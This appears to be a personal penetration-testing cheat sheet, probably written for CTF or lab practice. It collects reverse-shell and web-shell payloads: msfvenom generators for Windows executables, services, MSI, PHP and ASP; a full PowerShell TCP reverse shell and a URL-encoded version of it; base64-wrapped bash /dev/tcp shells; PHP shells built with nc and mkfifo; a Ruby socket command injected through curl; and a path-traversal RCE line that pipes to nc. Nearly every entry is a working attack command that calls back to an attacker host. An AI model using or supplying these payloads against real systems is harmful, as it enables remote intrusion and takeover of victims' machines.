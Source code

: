 
## _SSH Command Execution_
```
ssh -p 2220 bandit18@bandit.labs.overthewire.org -t "cat /home/bandit18/readme"
```

# reverShells
## listener on a local port
```
rlwrap nc -lvnp 1234
```

## msfvenom payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```
service
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
```
PHP  
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
ASP  
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
### meterpreter
`msf6 > use exploit/multi/handler `
replace `windows/x64/shell_reverse_tcp` by `windows/meterpreter/reverse_tcp`
## _reverse shell from the remote server_
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

# web shell
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII
```
### can encode payload in Base64 
	marche pour les formulaire
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash
```
## _Create end send a reverse shell php file to webvictim_
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.108 1234 >/tmp/f"); ?>' > shell.php
```
```
echo "<?php system('bash -i >& /dev/tcp/10.201.1.201/1234 0>&1');?>" > shell.php
```
## _form post_
```
curl 'http://remote@ip' -X POST -d 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```
	| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
	| `curl -X POST http://remot@IP/.%0d./.%0d./.%0d./bin/sh -d 'id | nc L@IP port'` | RCE
## _to allow the call backs on port 80 and 443 to our machine_
```
ufw allow from adresseip proto tcp to any port 80,443
```
